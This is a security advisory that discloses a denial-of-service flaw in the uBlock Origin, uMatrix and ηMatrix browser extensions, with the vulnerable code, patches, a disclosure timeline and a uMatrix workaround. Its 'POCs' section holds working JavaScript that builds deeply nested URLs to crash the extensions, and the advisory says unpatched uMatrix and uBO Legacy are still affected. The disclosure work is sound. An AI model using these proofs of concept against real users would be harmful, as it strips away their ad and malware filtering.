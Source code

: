 = uBlock Origin (and uMatrix) DoS with strict-blocking filter and crafted URL

:fn-legacy-release: footnote:[A release of the uBO (Legacy) extension https://github.com/gorhill/uBlock-for-firefox-legacy/issues/310#issuecomment-876323719[is forthcoming].]

:fn-ubo-strict-mode-history: footnote:[Strict-blocking support was added to uBO in https://github.com/gorhill/uBlock/commit/a4b4bc98ffc267496d5dc47d9c4477de38bcd0c7[commit a4b4bc] and was based on https://github.com/uBlock-LLC/uBlock/issues/1013[discussion in the issue tracker]. Support for displaying parsed URL parameters was added later in https://github.com/gorhill/uBlock/commit/1d5a592b129b92ff6fad7cf01c4b412547893bfc[commit 1d5a59] and was based on a https://github.com/gorhill/uBlock/issues/691[feature request].]

:fn-umatrix-strict-mode-history: footnote:[uBO's support for displaying parsed URL parameters was ported to uMatrix in https://github.com/gorhill/uMatrix/commit/3f8168ce0bb7bb1837f9fedfc02aa09723ee3e25[commit 3f8168].]

:fn-ubo-patch: footnote:[The uBO vulnerability was fixed in https://github.com/gorhill/uBlock/commit/365b20e8cc27cd776ef3868b02ea739ba387356d[commit 365b20].]

:fn-ematrix-patch: footnote:[The ηMatrix vulnerability was fixed in https://gitlab.com/vannilla/ematrix/-/commit/42869ac0a738679b819bebca24298c601ed17f7e[commit 42869a].]

:fn-truecrypt-vulnerability: footnote:[I eventually migrated away from TrueCrypt after an https://googleprojectzero.blogspot.com/2015/10/windows-drivers-are-truely-tricky.html[unpatched vulnerability] was discovered.]

:fn-umatrix-archived: footnote:[gorhill https://github.com/uBlockOrigin/uMatrix-issues/issues/291#issuecomment-694988696[commented] about archiving the uMatrix repository in September 2020.]

:fn-umatrix-last-stable-release: footnote:[The last stable release of uMatrix, https://github.com/gorhill/uMatrix/releases/tag/1.4.0[1.4.0], was tagged on September 5, 2019.]

:fn-ubo-patch-release: footnote:[https://github.com/gorhill/uBlock/releases/tag/1.36.2[uBO 1.36.2] was tagged shortly after notification of the vulnerability.]

:fn-ematrix-patch-release: footnote:[https://gitlab.com/vannilla/ematrix/-/tags/v4.4.9[ηMatrix 4.4.9] was tagged shortly after notification of the vulnerability.]


== Overview

uBlock Origin (uBO) is a browser extension that blocks ads, security risks, privacy risks, and other web annoyances.
One of its features is "strict blocking," which prevents all connections--including direct navigations--to resources that match strict filters.

Strict filters are most often used to block sites that perform affiliate redirects, serve malware, or are otherwise undesirable to visit.
They are typically applied at the domain level (e.g., googlesyndication.com) and tend to resemble entries in hosts files, though they can also target more specific resources.

Strict blocking works by opening a warning page that provides information about the blocked resource, including its URL and the filter that prevented the resource from loading.
The warning page also displays query parameters from the blocked URL to help users bypass redirect tracking.

In earlier versions of uBO, these parameters were parsed recursively and added to the DOM without any depth checks, which could lead to extension crashes and memory exhaustion, depending on the browser and hardware.
uMatrix and ηMatrix, a fork of uMatrix compatible with Pale Moon, share similar code for displaying parsed URL parameters.

Users should upgrade to uBO 1.36.2 and ηMatrix 4.4.9 to receive fixes for this security vulnerability, which affects the default configurations of both extensions.
The uBO (Legacy) extension{fn-legacy-release} has a separate release process and is still vulnerable.

*uMatrix remains unpatched and unmaintained*, though an unofficial mitigation is detailed below.


== Discussion

I discovered this bug while browsing the uBO codebase, which was a bit surprising given how basic the finding is.
Even more surprising is that this vulnerability seems to have existed in uBO since 2015{fn-ubo-strict-mode-history} (and in uMatrix since 2017{fn-umatrix-strict-mode-history}).
Perhaps the extension has not received as much attention from security researchers as I'd expected, given its popularity and its security- and privacy-related functionality?

=== Vulnerability

Here is the vulnerable code from uBO 1.36.0:

[source,javascript,linenums,start=147]
.https://github.com/gorhill/uBlock/blob/1.36.0/src/js/document-blocked.js#L147-L176[uBlock/src/js/document-blocked.js]
----
const renderParams = function(parentNode, rawURL) {
    const a = document.createElement('a');
    a.href = rawURL;
    if ( a.search.length === 0 ) { return false; }

    let pos = rawURL.indexOf('?');
    const li = liFromParam(
        vAPI.i18n('docblockedNoParamsPrompt'),
        rawURL.slice(0, pos)
    );
    parentNode.appendChild(li);

    const params = a.search.slice(1).split('&');
    for ( const param of params ) {
        let pos = param.indexOf('=');
        if ( pos === -1 ) {
            pos = param.length;
        }
        const name = safeDecodeURIComponent(param.slice(0, pos));
        const value = safeDecodeURIComponent(param.slice(pos + 1));
        const li = liFromParam(name, value);
        if ( reURL.test(value) ) {
            const ul = document.createElement('ul');
            renderParams(ul, value);                            <1>
            li.appendChild(ul);
        }
        parentNode.appendChild(li);
    }
    return true;
};
----

<1> `renderParams` is called recursively without taking into account the current nesting level.
This allows for repeated allocations that can cause resource exhaustion on memory-constrained hardware and extension crashes in Chrome.

For reference, here is what the warning page looks like in uBO 1.36.0 with some nested parameters displayed:

.uBO's strict-blocking warning page
image::images/ubo_strict_blocking_warning_page.png[uBO's strict-blocking warning page. The page displays a URL that contains a few levels of nested parameters and the parsed representations of those parameters.]

=== Impact and scope

The strict-blocking warning page is only displayed when direct navigations are blocked.
This means that malicious hosts would need to induce users to trigger a navigation somehow, such as by clicking a link.
iframes are classified as sub-documents and do not trigger the warning page, which should make it harder for malicious hosts to exploit this vulnerability in the background.

When uBO (or uMatrix) crashes, users are left without filtering protection until the extension is reloaded.
This introduces the possibility of undesired traffic flowing to and from the user's browser.
I tested three browsers--Firefox, Chrome, and Pale Moon--and only noticed extension crashes in Chrome.
Other browsers that uBO supports, such as Opera and Edge, were not tested and may exhibit different behavior.

The vulnerability affects standard configurations of uBO, uMatrix, and ηMatrix because each extension enables filter lists that contain thousands of strict filters by default.

=== uBO and ηMatrix patches

uBO 1.36.2 restricts parameter-nesting to 2 levels to fix the bug{fn-ubo-patch}, and ηMatrix 4.4.9 restricts parameter-nesting to 3 levels to fix the same issue{fn-ematrix-patch}.

=== uMatrix mitigation

The uMatrix repository was archived in September 2020{fn-umatrix-archived}, and the last stable uMatrix release was in September 2019{fn-umatrix-last-stable-release}.
Until now, I've been treating uMatrix similarly to how I treated TrueCrypt after its development had stopped: unmaintained but still trustworthy in the absence of known vulnerabilities{fn-truecrypt-vulnerability}.
I may have to rethink my default stance for unmaintained security-related software going forward.

To mitigate the vulnerability for now, users can disable uMatrix's strict-blocking support by unselecting all of the filter lists on the "Assets" tab in the uMatrix dashboard and by removing any strict-blocking rules that were added manually.
These manually-added rules will appear on the "My rules" tab and will be of the form `* nytimes.com * block` or `nytimes.com nytimes.com * block` (the hostname must be repeated).
Users can also enable all of the "Malware domains" and "Multipurpose" filter lists in uBlock Origin to help offset the lost filtering coverage.


== POCs

=== uBO

[source,javascript]
----
// bet365.com is used because uBO enables EasyList by default and because
// EasyList contains this entry: ||bet365.com/*?affiliate=$document

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
}

const url = 'http://bet365.com/?affiliate=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uBO eventually crashes
// and must be reloaded to work again.
----

=== uMatrix and ηMatrix

[source,javascript]
----
// googleadservices.com is used because uMatrix and ηMatrix enable Peter Lowe's
// tracking list by default and because the list contains this entry:
// 127.0.0.1 googleadservices.com

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
} else if (navigator.userAgent.includes('PaleMoon')) {
    // Pale Moon can actually handle more repetitions than this,
    // but its memory usage becomes excessive (>10GB)
    repetitions = 18000;
}

const url = 'http://googleadservices.com/?a=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uMatrix eventually crashes
// and must be reloaded to work again.
----


== Timeline

* 2021-07-05 - I emailed gorhill (the author of uBO and uMatrix) my findings
* 2021-07-06 - gorhill pushed a fix for uBO and tagged 1.36.2{fn-ubo-patch-release}
* 2021-07-06 - I emailed vannilla (the maintainer of ηMatrix) my findings
* 2021-07-06 - vannilla pushed a fix for ηMatrix and tagged 4.4.9{fn-ematrix-patch-release}
* 2021-07-06 - uBO 1.36.2 became available on the Chrome and Firefox add-ons sites
* 2021-07-07 - uBO 1.36.2 became available on the Opera add-ons site
* 2021-07-11 - ηMatrix 4.4.9 became available on the Pale Moon add-ons site after a beta-testing period
* 2021-07-14 - I published this post


== Acknowledgments

Thanks to gorhill for fixing the issue in uBO, preparing a release, and creating software that has improved daily web-browsing for many users.

Thanks to vannilla for fixing the issue in ηMatrix and preparing an out-of-band release.

Thanks to nikrolls for submitting uBO 1.36.2 to the Edge add-ons site.

Thanks to JustOff for agreeing to prepare a future uBO (Legacy) release that addresses the vulnerability.

== References

* https://github.com/gorhill/uBlock/wiki/Strict-blocking/[Documentation for uBO's strict-blocking feature]
* https://github.com/gorhill/uMatrix/wiki/How-to-get-past-%22uMatrix-has-prevented-the-following-page-from-loading%22[Documentation for uMatrix's strict-blocking feature]

